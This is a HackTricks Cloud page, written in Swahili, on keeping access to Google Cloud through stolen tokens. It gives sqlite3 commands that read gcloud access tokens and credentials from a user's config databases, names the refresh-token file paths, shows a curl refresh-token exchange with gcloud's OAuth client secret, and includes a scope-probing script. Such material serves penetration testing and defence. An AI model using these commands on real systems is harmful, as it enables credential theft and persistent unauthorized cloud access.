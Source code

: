 # GCP - Token Persistance

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Tokens za Mtumiaji Aliyeidhinishwa

Ili kupata **token ya sasa** ya mtumiaji unaweza kukimbia:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Angalia katika ukurasa huu jinsi ya **kutumia moja kwa moja tokeni hii kwa kutumia gcloud**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Ili kupata maelezo ya **kuunda tokeni mpya ya ufikiaji** endesha:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Pia inawezekana kupata refresh tokens katika **`$HOME/.config/gcloud/application_default_credentials.json`** na katika **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

Ili kupata access token mpya iliyosasishwa kwa kutumia **refresh token**, client ID, na client secret, endesha:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Uhalali wa refresh tokens unaweza kudhibitiwa katika **Admin** > **Security** > **Google Cloud session control**, na kwa default umewekwa kwa masaa 16 ingawa unaweza kuwekwa kutokufa milele:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Auth flow

Mchakato wa uthibitishaji unapokuwa ukitumia kitu kama `gcloud auth login` utafungua dirisha katika kivinjari na baada ya kukubali maeneo yote kivinjari kitatumia ombi kama hili kwa bandari ya http iliyofunguliwa na chombo:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Then, gcloud itatumia hali na msimbo pamoja na `client_id` (`32555940559.apps.googleusercontent.com`) na **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) kupata **data ya mwisho ya refresh token**.

{% hint style="danger" %}
Kumbuka kwamba mawasiliano na localhost yako katika HTTP, hivyo inawezekana kukamata data ili kupata refresh token, hata hivyo data hii ni halali mara 1 tu, hivyo hii itakuwa haina maana, ni rahisi tu kusoma refresh token kutoka kwa faili.
{% endhint %}

### OAuth Scopes

Unaweza kupata scopes zote za Google katika [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) au kupata hizo kwa kutekeleza:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

Inawezekana kuona ni mipaka gani programu ambayo **`gcloud`** inatumia kujiandikisha inaweza kusaidia kwa kutumia skripti hii:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
Baada ya kuitekeleza, ilikaguliwa kwamba programu hii inasaidia maeneo haya:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
ni ya kuvutia kuona jinsi programu hii inavyounga mkono **`drive`** scope, ambayo inaweza kumruhusu mtumiaji kupandisha hadhi kutoka GCP hadi Workspace ikiwa mshambuliaji atafanikiwa kumlazimisha mtumiaji kuunda tokeni na scope hii.

**Angalia jinsi ya** [**kudhulumu hii hapa**](../gcp-to-workspace-pivoting/#abusing-gcloud)**.**

### Akaunti za Huduma

Kama ilivyo kwa watumiaji walioidhinishwa, ikiwa utafanikiwa **kudhulumu faili ya ufunguo wa faragha** ya akaunti ya huduma utaweza **kuipata kawaida kwa muda wote unavyotaka**.\
Hata hivyo, ikiwa utaiba **tokeni ya OAuth** ya akaunti ya huduma hii inaweza kuwa ya kuvutia zaidi, kwa sababu, hata kama kwa kawaida tokeni hizi zinatumika kwa saa moja tu, ikiwa **mhasiriwa atafuta ufunguo wa api wa faragha, tokeni ya OAuh itabaki kuwa halali hadi itakapokwisha**.

### Metadata

Kwa wazi, kadri unavyokuwa ndani ya mashine inayofanya kazi katika mazingira ya GCP utaweza **kupata akaunti ya huduma iliyoambatanishwa na mashine hiyo kwa kuwasiliana na mwisho wa metadata** (zingatia kwamba tokeni za Oauth unazoweza kupata katika mwisho huu kwa kawaida zinapunguziliwa mbali na scopes).

### Marekebisho

Marekebisho kadhaa kwa mbinu hizi yanaelezwa katika [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

### Marejeleo

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

